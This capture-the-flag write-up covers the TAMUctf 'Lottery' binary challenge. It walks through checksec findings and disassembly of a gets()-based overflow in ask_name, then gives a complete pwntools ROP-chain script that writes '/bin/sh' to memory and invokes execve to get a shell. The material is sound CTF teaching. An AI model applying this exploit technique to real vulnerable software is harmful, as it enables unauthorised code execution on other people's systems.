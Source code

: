 # Lottery

Description : 
Attack the binary and get the flag!

We can connect with : 
```openssl s_client -connect tamuctf.com:443 -servername lottery -quiet```

* The first thing to do here might be to check for file info.

```lottery: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, with debug_info, not stripped```
* Since it is statically linked, the possibility of a ret2libc attack is eliminated.
* Another look into checksec would reveal that ```NX``` is enabled. 
* With NX enabled, we may not be able to inject a shellcode either. 

Initially, while running the program, we are prompted with three options, enter numbers, check numbers and enter name. However a look into check_numbers() in gdb reveals that entering the correct numbers is not enough to print the flag.
However we can see that ask_name() contains gets. Making use of this vulnerability we can make a syscall.

* Disasssembly of ask_name : 

```0x0000000000401470 <+0>:	push   rbp
   0x0000000000401471 <+1>:	xor    eax,eax
   0x0000000000401473 <+3>:	sub    rsp,0x40
   0x0000000000401477 <+7>:	mov    rbp,rsp
   0x000000000040147a <+10>:	mov    rdi,rbp
   0x000000000040147d <+13>:	call   0x401b34 <gets>
   0x0000000000401482 <+18>:	mov    rsi,rbp
   0x0000000000401485 <+21>:	lea    rdi,[rip+0x7bad]        # 0x409039
   0x000000000040148c <+28>:	xor    eax,eax
   0x000000000040148e <+30>:	call   0x401bd3 <printf>
   0x0000000000401493 <+35>:	add    rsp,0x40
   0x0000000000401497 <+39>:	pop    rbp
   0x0000000000401498 <+40>:	ret    
```
The buffer size defined is 0x48 bytes, but since gets is used, there is no limit to our input.
To do the syscall, we can make use of ROPgadgets and the following code :

# Python script :
```
from pwn import *

p = remote('localhost', 4444)
buf = 'a'*0x48
syscall = p64(0x00000000004016f9)
pop_rax = p64(0x000000000040100b)
pop_rdi = p64(0x401253)
pop_rsi = p64(0x4018ad)
pop_rdx = p64(0x0000000000401255)
mov_qword_ptr_rdi_rax = p64(0x401f37)

buf += pop_rax + p64(0x0068732f6e69622f) + pop_rdi + p64(0x40c730) + mov_qword_ptr_rdi_rax

buf += pop_rax + p64(0x3b)
buf += pop_rdi + p64(0x40c730)
buf += pop_rsi + p64(0x00) + pop_rdx + p64(0x00) + syscall


p.recvuntil("Action: ")
p.sendline('3')
p.sendline(buf)
p.interactive()
```

